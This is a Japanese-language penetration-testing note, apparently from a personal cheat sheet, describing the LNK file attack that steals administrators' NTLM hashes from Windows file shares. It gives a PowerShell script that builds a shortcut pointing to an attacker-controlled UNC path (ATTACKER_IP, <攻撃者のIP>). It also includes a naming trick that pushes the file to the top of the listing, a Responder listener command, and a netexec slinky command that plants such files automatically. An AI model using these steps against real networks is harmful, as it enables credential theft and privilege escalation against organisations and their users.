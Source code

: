 # LNK File Attack
- 水飲み場攻撃の一種
- 権限を昇格させたり、管理者のハッシュを取得したい場合など
	- 管理者など高権限ユーザーの NTLMハッシュを取得
	- SMBリレーやパスワードクラックなどに繋げる
- 特に共有フォルダ（社内ファイル共有）が攻撃経路になる

攻撃の流れ（3ステップ）

1. 悪意ある .lnk（ショートカット）ファイルを作る
	- .lnk ファイルは、アイコンやリンク先などに**リソース参照先、UNCパス**を指定できる
	- 例： `\\ATTACKER_IP\icon.ico`
	- Windowsはアイコン表示のためにこのリモートパスに勝手にアクセスする！

.Inkファイルの作成コマンド
- この時に、作成する.lnkファイル名の接頭辞に「@」か「~」をつける
	- こうすることで、エクスプローラーで表示した時に、上の方に出てきて、windowsに勝手に実行されやすくなる
```powershell
$objShell = New-Object -ComObject WScript.shell
$lnk = $objShell.CreateShortcut("<ADの共有フォルダ>\@test.lnk")
$lnk.TargetPath = "\\<攻撃者のIP>\@test.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "Test"
$lnk.HotKey = "Ctrl+Alt+T"
$lnk.Save()
```

2. その .lnk ファイルを共有フォルダに置く
	- 社内共有フォルダやホームドライブなど、誰かが開く可能性のある場所に配置
	- 例えば：`\\fileserver\public\Project2025Shortcut.lnk`

3. KaliでResponderを立ち上げ、接続を待つ
```sh
sudo responder -I eth0 -dPv
```

4. 管理者が .lnk ファイルを表示 or アクセスした瞬間、NTLMハッシュが送信される
	- 被害者のマシンは `\\ATTACKER_IP\icon.ico` に自動アクセス
	- 攻撃者側（例：Kali Linux）で Responder を起動していれば、
→ SMB認証を試みるNTLMv2ハッシュがキャプチャできる

つまりこういうこと
- ファイルを開かなくても、エクスプローラーで一覧表示しただけでアウト！
- .lnk のアイコンロード時点で SMB通信が発生 → NTLMハッシュが飛ぶ
- それをResponderやInveighでキャプチャして使う

.lnkファイルの自動作成ツール
- 以下のコマンドで、.inkファイルを作成して、公開共有ホストにおいてくれる。攻撃者がやるのはResponderで待機することだけになる
```sh
netexec smb <AD参加ホスト> -d <ドメイン名> -u <ユーザー名> -p <パスワード> -M slinky -M slinky -o NAME=test SERVER=<攻撃者IP>
```

